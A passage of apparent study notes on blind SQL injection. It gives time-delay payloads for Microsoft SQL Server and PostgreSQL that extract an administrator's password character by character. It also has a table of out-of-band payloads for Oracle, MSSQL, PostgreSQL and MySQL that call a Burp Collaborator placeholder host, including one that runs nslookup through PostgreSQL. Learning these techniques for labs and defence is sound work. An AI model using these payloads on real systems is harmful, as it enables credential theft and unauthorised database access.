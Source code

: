 

Delaying the execution of a SQL query also delays the HTTP responses, we use this to determine the truth of injected condition:

Example on Microsoft SQL Server:
```
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```
- The first of these inputs does not trigger a delay, because the condition 1=2 is false.
- The second input triggers a delay of 10 seconds, because the condition 1=1 is true.

By this we can extract each character at a time:

`'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`

Payload: %3B in SQL is decoded to ";", which is make a new query:

```sql
%3B
SELECT CASE 
    WHEN (SUBSTRING((SELECT password FROM users WHERE username='administrator'), 1, 1) < 'd') 
    THEN pg_sleep(10) 
    ELSE NULL 
END--
```

> %3BSELECT CASE WHEN (SUBSTRING((SELECT password FROM users WHERE username='administrator'), 1, 1) = 'd') THEN pg_sleep(3) ELSE NULL END--

Then use Burp Intruder to extract each position.

### Exploiting blind SQL injection using out-of-band (OAST) techniques

#### Not exfiltrate data

| Database       | Technique                                                                                                                                                                          |
| -------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Oracle**     | (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:                                    |
|                | `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual` |
|                | The following technique works on fully patched Oracle installations, but requires elevated privileges:                                                                             |
|                | `SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')`                                                                                                                |
| **Microsoft**  | `exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'`                                                                                                                        |
| **PostgreSQL** | `copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'`                                                                                                               |
| **MySQL**      | The following techniques work on Windows only:                                                                                                                                     |
|                | `LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')`                                                                                                                                  |
|                | `SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\\a'`                                                                                                                     |
